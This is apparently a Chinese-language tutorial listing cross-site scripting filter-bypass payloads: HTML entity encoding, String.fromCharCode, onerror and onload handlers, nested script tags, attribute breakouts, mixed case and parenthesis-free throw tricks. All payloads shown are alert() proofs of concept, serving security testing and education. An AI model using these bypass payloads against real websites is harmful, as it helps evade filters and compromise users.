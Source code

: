 ## XSS绕过技巧 ##
### 前言 ###
XSS是Web应用程序中常见的漏洞之一，网站管理员可以通过用户输入过滤、根据上下文转换输出数据、正确使用DOM、强制执行跨源资源共享（CORS）策略以及其他的安全策略来规避XSS漏洞。尽管现在有很多预防XSS攻击的技术，但Web应用程序防火墙（WAF）或自定义数据过滤器是目前使用比较广泛的安全保护技术了，很多厂商都会利用这些技术来抵御新型的XSS攻击向量

有些时候，通用的绕过技巧并不可行，这个时候我们就得观察缺陷点的周围环境，想想其它办法咯。“猥琐绕过”与通用绕过不 同的是，它通用性小，往往只是特例。

####1.单引号过滤绕过 ####
在我们的单引号之前放置了一个“\”，有时候双引号之前也会放置，通
过一些类似 add_slashes 的函数可以实现，这个就是转义字符，我们先前的代码就会变成这样：

     <INPUT type="text" value='\'><SCRIPT>alert(\"XSS\")</SCRIPT>'>
有一些方法可以继续，但是要看过滤的那个函数是怎么放的了。其中一个方法就是使用字符实体，学过 html
的都知道，就是一些特殊字符会用一些固有的符号组合来表示，举个例子，你不能用<>表示大于和小于，
因为这被解释为 html 标签，但是，你如果要用，可以用下面的来代替。

    1	2	3	4
    &#34;	&quot;	“	双引号	
    &#38;	&amp;	&	&符号	
    &#60;	&lt;	<	小于号	
    &#62;	&gt;	>	大于号
使用`&quot`;或者`&#34`;
来代替我们的双引号，有时候可以绕过过滤

**例子:**

    <script>alert("XSS")</script>
    <script>alert(&quot;XSS&quot;)</script>
    <script>alert(&#38;XSS&#38;)</script>
如果这都被过滤了。那我们可以使用 JavaScript 的 fromCharCode 函数，这个函数把指定的 Unicode值转换成字符串
   
**例子**

    <script>alert("XSS")</script>
    <script>alert(String.fromCharCode(88,83,83))</script>
    
#### 2.` <SCRIPT>`过滤绕过 ####
有些过滤器会过滤到`<script>`标签，那上面的例子就都废了，但是。还是有方法插入 javascript 的。我们看看事件处理器的例子。

    <BODY onload="alert('XSS')">

在 html 里啊。这个 Onload 关键字就是一个事件，其他的所有标签都没有这个属性，但是 Body 标签是有的。但是，有一定的局限性，如果 onload 事件在你的代码之前已经被处理了。那就不会触发了。。不过我们可以继续看看 onerror 事件处理。

    <IMG SRC="" onerror="alert('XSS')">
    <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

注意看，图片没有指定，也就是出错了。Onerror 这个事件就会发茶。引发 XSS 漏洞，没有用`<script>`
标签哦。

如果是把`<script>`和`</script>`标签过滤掉，那么可以用

    <scr<script>ipt>alert(1)</scr<script>ipt>

#### 3.(Input)标签属性绕过 ####
    <INPUT type="text" value='<SCRIPT>alert("XSS")</SCRIPT>'>
**闭合`<input>`**

    '><SCRIPT>alert("XSS")</SCRIPT>
现在我们的代码执行了。因为我们闭合了前面的 html 标签，就触发了 XSS，但是，你可能会发现，页面上会显示一个多出来的单引号，为什么，因为后面的那个原来的单引号没有匹配，我们继续修改我们的代码。

    '><SCRIPT>alert("XSS")</SCRIPT><xss a='
所有的输入就会变成这样：
    
    <INPUT type="text" value=''><SCRIPT>alert("XSS")</SCRIPT><xss a=''>
Javascript 代码就注入了。`<xss a=”>`这个没什么意义，你可以自己改，但是符合 html 的标准，
页面不会出错。

#### 4.大小写混用绕过 ####
    <iMgSRC = "JavaScript:alert(0);">

不使用引号或者构造全角字符也能扰乱过滤规则

还有像CSS中/**/会被浏览器忽略，\和\0同样或被浏览器忽略，同样可以用来绕过：

    <img src ="java/*javascript:alert(‘xss‘)*/script:alert(1);">
#### 5.`magic_quotes_gpc`绕过####
    <script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script> 
#### 6.分号引号过滤绕过 ####
    
    <IMG SRC=javascript:alert('XSS')>    

####  7.括号被过滤绕过 ####
当括号被过滤的时候可以使用throw来绕过

    <a onmouseover="javascript:window.onerror=alert;throw 1>
    <img src=x onerror="javascript:window.onerror=alert;throw 1">
以上两个测试向量在Chrome跟IE在上面会出现一个“uncaught”的错误，可以用以下的向量：
    
    <body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
#### 8.= ( ) ; :被过滤时绕过 ####
    <svg><script>alert&#40/1/&#41</script> // 通杀所有浏览器
opera中可以不闭合

    <svg><script>alert&#40 1&#41 // Opera可查

